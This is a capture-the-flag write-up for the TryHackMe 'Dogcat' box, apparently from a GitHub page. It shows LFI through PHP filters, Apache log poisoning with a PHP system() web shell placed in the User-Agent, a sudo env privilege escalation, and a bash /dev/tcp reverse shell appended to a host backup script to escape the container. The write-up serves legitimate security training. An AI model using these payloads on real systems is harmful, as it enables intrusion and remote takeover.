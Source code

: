 # Dogcat

Dogcat is a [medium-rated box on TryHackme](https://tryhackme.com/room/dogcat) which involves an LFI and poisoning the User-Agent to get RCE.

## Recon

As always, let's start out with a simple Nmap scan:
```
wiz@skua:~/ctf/thm/dogcat$ nmap -sC -sV -Pn --top-ports 1000 -o inital.nmap 10.10.94.19
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 13:30 CEST
Nmap scan report for 10.10.94.19
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

From this basic scan we can see that port 80 is open. While running a full portscan in the background, we can have a look at the website.

![dogcat landing page](./screenshots/dogcat-1.png)

The first thing I usually do is check if the site is running HTML, PHP, or something else. We can find this out by requesting the URL with either *index.html* or *index.php*. In this case, we can verify that it is a PHP page.

We have two options to choose from, "A dog" and "A Cat". Clicking on these gives us a random picture of a dog or a cat, depending on which you clicked. This in itself isn't necessarily interesting to us, but here we can see in the URL that the chosen option gets added sent as a GET parameter.

```HTTP
http://<ip>/?view=dog
```

In the context of a view, our first suspicion should be if the request is including another files response inside index.php. We can also assume that it appends a .php extension, as the original http request does not contain it.
```PHP
include $_GET['view'] . "php";
```
We can test this suspicion by requesting the File added in the view directly from the URL.
```HTTP
http://<ip>/dog.php
```
As suspected, it returns a picture on an otherwise blank page. From here we can try some LFI.

## LFI

Because at the moment we have to assume that the code appends .php to every request we make in the view, we can "only" get the source of the current pages. These files are *index.php*, *dog.php* and *cat.php*. Because these would all be interpreted when we include them, we have to convert them into some other format. We'll use the php filter functionality to convert the code into Base64. The site also prevents us from putting something in the view without the keywords "dog" or "cat", which is why we have to change our path accordingly:
```HTTP
http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index
```
This returns a base64 encoded string of the sourcecode of *index.php*. 

![dogcat base64 extraction](./screenshots/dogcat-2.png)

Decoding it results in this code:

```PHP
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Here we can see that our suspicions were partially correct, in that the other view gets included into the page. But the crucial part is that the user can set the extension in a GET request, which we previously did not know. This means we can now open other files than php by setting that parameter to nothing.

```HTTP
http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../../../../../../etc/passwd&ext=
```

This returns us another base64 decoded string, this time from /etc/passwd as verification that we can view other files:

![decoding /etc/passwd base64](./screenshots/dogcat-3.png)


## RCE

With this knowledge, we can possibly leverage our LFI into an RCE by adding PHP code in places where there shouldn't normally be any, as the include statement interprets it as PHP without needing the extension. We can try this here by adding some PHP code in the User-Agent of our request and including the webserver log. We can view the Webserver log via the same LFI.

![Viewing the Webserver log via LFI](./screenshots/dogcat-4.png)

Now it's just a question of adding a payload in the User-Agent. We'll just add a simple GET to system parameter for now, although you could also upload a complete shell at this point.

```HTTP
GET /?view=./dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.38.198
User-Agent: <?php system($_GET['wiz']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

From here we can simply make another request to the same URL with a command for the parameter we previously set...

![Executing commands via LFI](./screenshots/dogcat-5.png)

...and get RCE! I used the php oneliner from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), just remember to URLEncode before you send it off.

![RCE](./screenshots/dogcat-6.png)

From here you will find a flag.php, where the first flag is placed. The second flag will be one folder up, in /var/www .

## Privesc

Once we have the shell, we of course want to privesc. To start our enumeration, we do a simple sudo -l:

![privesc enumeration](./screenshots/dogcat-7.png)

We can see that we can execute */usr/bin/env* as sudo. A quick peek at [GTFObins](https://gtfobins.github.io/) will show us a way to privesc.

![privesc](./screenshots/dogcat-8.png)

## Container Escape

Although we rooted the box, there still seems to be a fourth flag. By running linpeas we can find some unusual scripts in */opt/backups*.

![backups folder](./screenshots/dogcat-9.png)

Here we can see that we are actually inside a container. The container escape doesn't seem to be hard though, as this looks like a shared folder between the Host and the Container, where the Host runs this script to get a backup. We can simply append a bash reverse shell at the end of the file and escalate to the host machine.

`echo "bash -i >& /dev/tcp/10.9.19.202/6510 0>&1" >> backup.sh`

The fourth flag is in */root* of the Host.

![last flag](./screenshots/dogcat-10.png)
